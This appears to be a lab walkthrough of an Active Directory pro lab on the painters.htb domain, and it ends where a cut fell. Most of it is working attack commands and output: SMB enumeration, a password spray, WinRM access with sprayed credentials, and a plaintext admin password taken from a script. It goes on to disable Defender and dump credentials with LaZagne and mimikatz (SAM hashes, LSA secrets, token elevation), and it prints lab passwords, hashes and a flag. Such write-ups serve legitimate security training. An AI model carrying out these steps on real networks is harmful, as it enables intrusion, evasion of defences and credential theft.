



If we run a SMB scan we can identify this as Workstation-1:

```
sf6 auxiliary(scanner/smb/smb_version) > run

[*] 192.168.110.56:445    - SMB Detected (versions:1, 2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:LZNT1) (encryption capabilities:AES-128-GCM) (signatures:optional) (guid:{da5d1512-cebb-4fee-a1c6-8d2cf538bbaa}) (authentication domain:PAINTERS)Windows 10 Enterprise (build:19045) (name:WORKSTATION-1) (domain:PAINTERS)
[+] 192.168.110.56:445    -   Host is running SMB Detected (versions:1, 2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:LZNT1) (encryption capabilities:AES-128-GCM) (signatures:optional) (guid:{da5d1512-cebb-4fee-a1c6-8d2cf538bbaa}) (authentication domain:PAINTERS)Windows 10 Enterprise (build:19045) (name:WORKSTATION-1) (domain:PAINTERS)
[*] 192.168.110.56:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_version) > search portscanner
```

And running a TCP scan we can find out that only standard ports are open on the device:

```
msf6 auxiliary(scanner/portscan/tcp) > run

[+] 192.168.110.56:       - 192.168.110.56:139 - TCP OPEN
[+] 192.168.110.56:       - 192.168.110.56:135 - TCP OPEN
[+] 192.168.110.56:       - 192.168.110.56:445 - TCP OPEN
[+] 192.168.110.56:       - 192.168.110.56:5040 - TCP OPEN
[+] 192.168.110.56:       - 192.168.110.56:5985 - TCP OPEN
[+] 192.168.110.56:       - 192.168.110.56:7680 - TCP OPEN
[*] 192.168.110.56:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

* * *

## SMB:

Running another scan on the SMB shows that this is a Windows 10 machine on build 19041 that is domain joined with hostname WORKSTATION-1:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains enum4linux-ng -A 192.168.110.56
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
ENUM4LINUX - next generation (v1.3.1)

[proxychains] DLL init: proxychains-ng 4.16
 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.110.56
[*] Username ......... ''
[*] Random Username .. 'kzubyukp'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 192.168.110.56    |
 =======================================
[*] Checking LDAP
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:389 <--socket error or timeout!
[-] Could not connect to LDAP on 389/tcp: connection refused
[*] Checking LDAPS
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:636 <--socket error or timeout!
[-] Could not connect to LDAPS on 636/tcp: connection refused
[*] Checking SMB
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:139  ...  OK
[+] SMB over NetBIOS is accessible on 139/tcp

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.110.56    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 192.168.110.56    |
 ===========================================
[*] Trying on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                          
  SMB 1.0: true                                                                                                                                                                              
  SMB 2.02: true                                                                                                                                                                             
  SMB 2.1: true                                                                                                                                                                              
  SMB 3.0: true                                                                                                                                                                              
  SMB 3.1.1: true                                                                                                                                                                            
Preferred dialect: SMB 3.0                                                                                                                                                                   
SMB1 only: false                                                                                                                                                                             
SMB signing required: false                                                                                                                                                                  

 =============================================================
|    Domain Information via SMB session for 192.168.110.56    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
[+] Found domain information via SMB
NetBIOS computer name: WORKSTATION-1                                                                                                                                                         
NetBIOS domain name: PAINTERS                                                                                                                                                                
DNS domain: painters.htb                                                                                                                                                                     
FQDN: WORKSTATION-1.painters.htb                                                                                                                                                             
Derived membership: domain member                                                                                                                                                            
Derived domain: PAINTERS                                                                                                                                                                     

 ===========================================
|    RPC Session Check on 192.168.110.56    |
 ===========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE
[-] Sessions failed, neither null nor user sessions were possible

 =================================================
|    OS Information via RPC for 192.168.110.56    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10 Enterprise 19045                                                                                                                                                              
OS version: '10.0'                                                                                                                                                                           
OS release: '2004'                                                                                                                                                                           
OS build: '19041'                                                                                                                                                                            
Native OS: Windows 10 Enterprise 19045                                                                                                                                                       
Native LAN manager: Windows 10 Enterprise 6.3                                                                                                                                                
Platform id: null                                                                                                                                                                            
Server type: null                                                                                                                                                                            
Server type string: null                                                                                                                                                                     

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 16.50 seconds
```

We can also do a password spray with out usernames and password we found so far and we can see that Riley is still available even here:



And again checkin for possible shares there is a custom share worth to check:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains crackmapexec smb 192.168.110.56 -u riley -p P@ssw0rd --shares 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:135  ...  OK
SMB         192.168.110.56  445    WORKSTATION-1    [*] Windows 10 Enterprise 19045 x64 (name:WORKSTATION-1) (domain:painters.htb) (signing:False) (SMBv1:True)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
SMB         192.168.110.56  445    WORKSTATION-1    [+] painters.htb\riley:P@ssw0rd (Pwn3d!)

[*] completed: 100.00% (1/1)
SMB         192.168.110.56  445    WORKSTATION-1    [+] Enumerated shares
SMB         192.168.110.56  445    WORKSTATION-1    Share           Permissions     Remark
SMB         192.168.110.56  445    WORKSTATION-1    -----           -----------     ------
SMB         192.168.110.56  445    WORKSTATION-1    ADMIN$          READ,WRITE      Remote Admin
SMB         192.168.110.56  445    WORKSTATION-1    C$              READ,WRITE      Default share
SMB         192.168.110.56  445    WORKSTATION-1    IPC$                            Remote IPC
SMB         192.168.110.56  445    WORKSTATION-1    pollo           READ
```

We can only check the local users so far but nothing out of ordinary:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# proxychains crackmapexec smb 192.168.110.56 -u riley -p P@ssw0rd --users 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:135  ...  OK
SMB         192.168.110.56  445    WORKSTATION-1    [*] Windows 10 Enterprise 19045 x64 (name:WORKSTATION-1) (domain:painters.htb) (signing:False) (SMBv1:True)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
SMB         192.168.110.56  445    WORKSTATION-1    [+] painters.htb\riley:P@ssw0rd (Pwn3d!)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:389 <--socket error or timeout!
SMB         192.168.110.56  445    WORKSTATION-1    [-] Error enumerating domain users using dc ip 192.168.110.56: socket connection error while opening: [Errno 111] Connection refused
SMB         192.168.110.56  445    WORKSTATION-1    [*] Trying with SAMRPC protocol
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:139  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
SMB         192.168.110.56  445    WORKSTATION-1    [+] Enumerated domain user(s)
SMB         192.168.110.56  445    WORKSTATION-1    painters.htb\Administrator                  Built-in account for administering the computer/domain
SMB         192.168.110.56  445    WORKSTATION-1    painters.htb\DefaultAccount                 A user account managed by the system.
SMB         192.168.110.56  445    WORKSTATION-1    painters.htb\Guest                          Built-in account for guest access to the computer/domain
SMB         192.168.110.56  445    WORKSTATION-1    painters.htb\riley                          
SMB         192.168.110.56  445    WORKSTATION-1    painters.htb\WDAGUtilityAccount             A user account managed and used by the system for Windows Defender Application Guard scenarios.
```

Lastly we can see that the Printspooler is active which could potentially let us exploit the PE to NT System via PrintSpoofer exploit.



With riley credenntials we can login via WIN-RM and find a strange pdf that is worth downloading:

```
*Evil-WinRM* PS C:\Users\riley\Downloads> ls


    Directory: C:\Users\riley\Downloads


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/11/2022   2:58 PM            816 pdf1.pdf


*Evil-WinRM* PS C:\Users\riley\Downloads>
```

But this pdf seems like a leftover from another user. Under Riley´s AD documents folder we can see traces of a python script that is worth checking:

```
c*Evil-WinRM* PS C:\Users\riley.PAINTERS>ls Documents


    Directory: C:\Users\riley.PAINTERS\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/26/2023   5:18 PM           1524 automate.py
```

Opening the file we can find the password of the Admin portal from the DMZ server:

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/ZEPHYR]
└─# cat automate.py                                                                                                                                                                          
import requests
import subprocess
import time
import os
import warnings

warnings.filterwarnings("ignore")

url = "https://painters.htb/administration"
username = "admin"
password = "Mail4Painter2022!@#"

with requests.Session() as s:
    s.post(f"{url}/login", data={"username": username, "pass": password}, verify=False)

    for i in range(1,10):
        pdf_opened = False
        try:
            print(f"Opening PDF {i}")
            response = s.post(f"{url}/application/download", data={"application_id": i}, verify=False)
            response.raise_for_status()

            pdf_content = response.content
            if len(pdf_content) == 0:
                continue

            with open(f"{os.getcwd()}\pdf{i}.pdf", "wb") as f:
                f.write(pdf_content)

            subprocess.Popen([f"C:\Program Files (x86)\Adobe\Acrobat Reader DC\Reader\AcroRd32.exe", f"{os.getcwd()}\pdf{i}.pdf"])

            time.sleep(3)

            pdf_opened = True

        except Exception as e:
            print(f"Error: {e}")
        finally:
            if pdf_opened:
                subprocess.Popen(["TASKKILL", "/F", "/IM", "AcroRd32.exe", "/T"])
                time.sleep(2)

        if os.path.exists(f"{os.getcwd()}\pdf{i}.pdf"):
            os.remove(f"{os.getcwd()}\pdf{i}.pdf")

    response = s.get(f"{url}/application/purge", verify=False)
    if "Successfully purged database entries." in response.text:
        print("Script execution successful")
    else:
        print("Failed to purge database")
```

Checking the desktop surprisingly we have already access to Administrators home folder and we can get another flag:

```
Evil-WinRM* PS C:\Users\Administrator> ls Desktop


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/14/2022  10:42 AM             35 flag.txt
```

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/14/2022  10:42 AM             35 flag.txt


ca*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat flag.txt
ZEPHYR{PwN1nG_W17h_P4s5W0rd_R3U53}
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```

* * *

## PE:

Now I want to upgrade my shell to metepreter and when I tried seems like we have Defender with Realtime protection active:

```
QuickScanOverdue                 : False
QuickScanSignatureVersion        : 1.389.2421.0
QuickScanStartTime               : 9/8/2023 6:00:41 AM
RealTimeProtectionEnabled        : True
RealTimeScanDirection            : 0
RebootRequired                   : False
```

So we need to disable the realtime protection:

```
*Evil-WinRM* PS C:\temp> Set-MpPreference -DisableRealtimeMonitoring $false
*Evil-WinRM* PS C:\temp> Get-MpComputerStatus


AMEngineVersion                  : 1.1.20300.3
AMProductVersion                 : 4.18.2304.8
AMRunningMode                    : Normal
AMServiceEnabled                 : True
AMServiceVersion                 : 4.18.2304.8
AntispywareEnabled               : True
AntispywareSignatureAge          : 105
AntispywareSignatureLastUpdated  : 5/25/2023 11:13:54 PM
AntispywareSignatureVersion      : 1.389.2421.0
AntivirusEnabled                 : True
AntivirusSignatureAge            : 105
AntivirusSignatureLastUpdated    : 5/25/2023 11:13:52 PM
AntivirusSignatureVersion        : 1.389.2421.0
BehaviorMonitorEnabled           : True
ComputerID                       : F91492A9-A98D-53A2-A007-E3DB155435A8
ComputerState                    : 0
DefenderSignaturesOutOfDate      : True
DeviceControlDefaultEnforcement  : Unknown
DeviceControlPoliciesLastUpdated : 4/12/2023 8:27:17 AM
DeviceControlState               : Disabled
FullScanAge                      : 4294967295
FullScanEndTime                  :
FullScanOverdue                  : False
FullScanRequired                 : False
FullScanSignatureVersion         :
FullScanStartTime                :
IoavProtectionEnabled            : True
IsTamperProtected                : True
IsVirtualMachine                 : True
LastFullScanSource               : 0
LastQuickScanSource              : 2
NISEnabled                       : True
NISEngineVersion                 : 1.1.20300.3
NISSignatureAge                  : 105
NISSignatureLastUpdated          : 5/25/2023 11:13:52 PM
NISSignatureVersion              : 1.389.2421.0
OnAccessProtectionEnabled        : True
ProductStatus                    : 524384
QuickScanAge                     : 0
QuickScanEndTime                 : 9/8/2023 6:02:46 AM
QuickScanOverdue                 : False
QuickScanSignatureVersion        : 1.389.2421.0
QuickScanStartTime               : 9/8/2023 6:00:41 AM
RealTimeProtectionEnabled        : True
RealTimeScanDirection            : 0
RebootRequired                   : False
SmartAppControlExpiration        :
SmartAppControlState             : Off
TamperProtectionSource           : Signatures
TDTMode                          : N/A
TDTSiloType                      : N/A
TDTStatus                        : N/A
TDTTelemetry                     : N/A
TroubleShootingDailyMaxQuota     :
TroubleShootingDailyQuotaLeft    :
TroubleShootingEndTime           :
TroubleShootingExpirationLeft    :
TroubleShootingMode              :
TroubleShootingModeSource        :
TroubleShootingQuotaResetTime    :
TroubleShootingStartTime         :
PSComputerName                   :
```

I will run Lazagne and check what we can find so far:

```
*Evil-WinRM* PS C:\temp> ./lazagne.exe all


|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 0af50e35-4750-4f0e-aca7-31f978e440f6
[+] System masterkey decrypted for 24484621-0191-46d9-be62-8c30094b07cf
[+] System masterkey decrypted for 58d8ea1e-f7ee-499e-be71-6fe12c65639d
[+] System masterkey decrypted for a3a0f23c-0d45-407d-ae2f-cbad482c5ec3
[+] System masterkey decrypted for ad5c5fd3-8655-47c2-91eb-793c01fe52a8
[+] System masterkey decrypted for b04cd054-373d-478b-b040-774279d9a8d0
[+] System masterkey decrypted for d963f089-8a32-4812-80c6-be17ae237f3e

########## User: SYSTEM ##########

------------------- Hashdump passwords -----------------

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3b462a692a8c22f25cab0f178e5d7b59:::
riley:1001:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::

------------------- Pypykatz passwords -----------------

[+] Shahash found !!!
Shahash: 2d43ebc83136ff77dbac7813f0a89aebaf83302a
Nthash: 9ab46ef513f6f74ddf1ab492b8f542fa
Login: WORKSTATION-1$

[+] Shahash found !!!
Shahash: 9131834cf4378828626b1beccaa5dea2c46f9b63
Nthash: e19ccf75ee54e06b06a5907af13cef42
Login: riley

------------------- Lsa_secrets passwords -----------------

$MACHINE.ACC
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   61 8C E1 1C A3 62 DF 18 97 71 62 44 DD 3D AC 6F    a....b...qbD.=.o
0020   BA EE A0 9F D8 20 46 F8 40 82 82 6E 77 4A 99 33    ..... F.@..nwJ.3
0030   B1 F0 E0 B5 55 8B 95 B8 6C 7D F9 F4 65 51 64 CF    ....U...l}..eQd.
0040   6C 2D C6 AA 0D B3 D3 FB DA CD B6 45 D7 B2 DC 9C    l-.........E....
0050   F4 99 28 93 E0 A9 D0 E7 52 77 F6 B7 95 24 E4 A4    ..(.....Rw...$..
0060   AE 43 F5 CA CE 97 3D 8F 68 AF F5 D5 65 EE A5 F8    .C....=.h...e...
0070   81 7E C0 A8 EA 2D FF 98 92 C0 6D 18 D2 3E 1D 77    .~...-....m..>.w
0080   C2 3A 0D 85 C6 40 2C 5E EC 29 D8 0B 48 3D 2E 6F    .:...@,^.)..H=.o
0090   43 BE 25 8A 49 4F F2 93 95 49 89 98 BD 8B C6 64    C.%.IO...I.....d
00A0   62 69 9A 31 73 26 33 26 56 4A F0 A7 AD 7C 34 A6    bi.1s&3&VJ...|4.
00B0   B3 DC 3F A8 0F DE 8D 4F 71 99 07 A4 6A F6 40 E7    ..?....Oq...j.@.
00C0   50 F4 47 EC C0 E1 0E D9 6F FD CB BB 3C 8B 76 BB    P.G.....o...<.v.
00D0   EE 9B CC 40 A4 27 99 09 B9 D2 33 0C 26 6A 36 C1    ...@.'....3.&j6.
00E0   DD E8 1F 53 DA 39 9F AE 28 68 1A 73 7F D8 3D 53    ...S.9..(h.s..=S
00F0   9C 3A 00 7D 6D EC 17 0B D8 34 8E 39 99 FA 4D B7    .:.}m....4.9..M.
0100   24 9E 2F FF 85 89 0C 90 AC B8 E4 74 85 B5 5A 5D    $./........t..Z]

DefaultPassword
0000   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   2A 3B 66 F7 32 A2 8E 67 10 DC 4A 1D 2E 42 31 9A    *;f.2..g..J..B1.

DPAPI_SYSTEM
0000   01 00 00 00 95 E1 50 23 69 D9 AF 84 22 E0 DA CC    ......P#i..."...
0010   ED 10 8A 7F 42 CF 26 E5 57 E2 15 18 BA FD 3E A2    ....B.&.W.....>.
0020   9C 99 64 3F 9B 8D 29 32 54 DF 40 EF                ..d?..)2T.@.

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   5C 47 D5 7D D7 A5 C5 4A 50 85 AB 7C 93 62 01 94    .G.}...JP..|.b..
0020   AF C9 C5 0B BC 23 6A 79 62 93 24 D2 C6 CC 11 07    .....#jyb.$.....
0030   66 E2 BD 9C FB 21 B7 45 14 A7 57 E8 11 63 FB 30    f....!.E..W..c.0
0040   50 77 F8 7E D6 67 7A 69 61 94 58 9E 35 B1 2A A3    Pw.~.gzia.X.5.*.
0050   A3 79 67 0B 97 A8 8F 23 F6 D4 0A 94 D3 72 17 69    .yg....#.....r.i


[+] 9131834cf4378828626b1beccaa5dea2c46f9b63 ok for masterkey 6b55c20a-9918-4864-b739-08cf80d36998
[+] 9131834cf4378828626b1beccaa5dea2c46f9b63 ok for masterkey 8cfa28b0-0070-4c91-a3b9-a15ecdce93f6
[+] 9131834cf4378828626b1beccaa5dea2c46f9b63 ok for masterkey cbea738c-5fea-4c41-90e6-e1d03d9577a3
[+] 9131834cf4378828626b1beccaa5dea2c46f9b63 ok for masterkey 6b55c20a-9918-4864-b739-08cf80d36998
[+] 9131834cf4378828626b1beccaa5dea2c46f9b63 ok for masterkey 8cfa28b0-0070-4c91-a3b9-a15ecdce93f6
[+] 9131834cf4378828626b1beccaa5dea2c46f9b63 ok for masterkey cbea738c-5fea-4c41-90e6-e1d03d9577a3

[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 12.031248092651367
```

From here I want to run WINPEAS, dump stuff with mimikatz and lastly run a AD enumeration with sharphound. Seems like sharphound can't be run cause we are not using LDAP tokens so we need to use that from another machine.

Seems like we can't disable defender as riley which means that both Winpeas and Mimikatz can't be user unfortunately.

I will try to enable the RDP service on the machine since we are part of the Local Administrators and get a easier way i n remotely via CRACKMAPEXEC:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# proxychains crackmapexec smb 192.168.110.56 -u riley -p P@ssw0rd -M rdp -o ACTION=enable
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:135  ...  OK
SMB         192.168.110.56  445    WORKSTATION-1    [*] Windows 10 Enterprise 19045 x64 (name:WORKSTATION-1) (domain:painters.htb) (signing:False) (SMBv1:True)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:445  ...  OK
SMB         192.168.110.56  445    WORKSTATION-1    [+] painters.htb\riley:P@ssw0rd (Pwn3d!)
RDP         192.168.110.56  445    WORKSTATION-1    [+] RDP enabled successfully
```

Now seems like the firewall allows RDP:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# proxychains crackmapexec rdp 192.168.110.56 -u riley -p P@ssw0rd 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:3389  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:3389  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:3389  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  192.168.110.56:3389  ...  OK
RDP         192.168.110.56  3389   WORKSTATION-1    [*] Windows 10 or Windows Server 2016 Build 19041 (name:WORKSTATION-1) (domain:painters.htb) (nla:True)
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  WORKSTATION-1:3389 <--socket error or timeout!
RDP         192.168.110.56  3389   WORKSTATION-1    [-] painters.htb\riley:P@ssw0rd
```

But it didn't worked so I followed this guide that explained how to enable RDP both the service and firewall rules:  
https://pureinfotech.com/enable-remote-desktop-powershell-windows-10/

Now that I'm in i disabled temporaly the Defender:

And now we can dump SAM hive:

```
PS C:\temp> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::sam
Domain : WORKSTATION-1
SysKey : 1c23db3f663f7eaa09f56f73ed75d1fd
ERROR kull_m_registry_OpenAndQueryWithAlloc ; kull_m_registry_RegOpenKeyEx KO
ERROR kuhl_m_lsadump_getUsersAndSamKey ; kull_m_registry_RegOpenKeyEx SAM Accounts (0x00000005)

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

604     {0;000003e7} 1 D 41271          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;01b3275d} 2 D 31033276    WORKSTATION-1\riley     S-1-5-21-2164019744-4180519111-4189485426-1001  (14g,23p)       Primary
 * Thread Token  : {0;000003e7} 1 D 31828720    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz #

mimikatz # lsadump::sam
Domain : WORKSTATION-1
SysKey : 1c23db3f663f7eaa09f56f73ed75d1fd
Local SID : S-1-5-21-2164019744-4180519111-4189485426

SAMKey : a2dd3cc059d22885bbfa13c687248535

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 31d6cfe0d16ae931b73c59d7e0c089c0

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 8092020c9064687611cf5869fbed0bed

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : c8aec52ae10b709c818ddfc7ea249d77

* Primary:Kerberos-Newer-Keys *
    Default Salt : WORKSTATION-1.PAINTERS.HTBWDAGUtilityAccount
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : fbd4a3df559f53d512fd5fe4011f0425a5858ca312a5a471e82d79e136a6dc15
      aes128_hmac       (4096) : abf72bb5315f1e34252049ebc6d67a02
      des_cbc_md5       (4096) : 52f7c1f145321c94

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WORKSTATION-1.PAINTERS.HTBWDAGUtilityAccount
    Credentials
      des_cbc_md5       : 52f7c1f145321c94


RID  : 000003e9 (1001)
User : riley
  Hash NTLM: e19ccf75ee54e06b06a5907af13cef42

mimikatz #
```

And secrets:

```
mimikatz # lsadump::secrets
Domain : WORKSTATION-1
SysKey : 1c23db3f663f7eaa09f56f73ed75d1fd

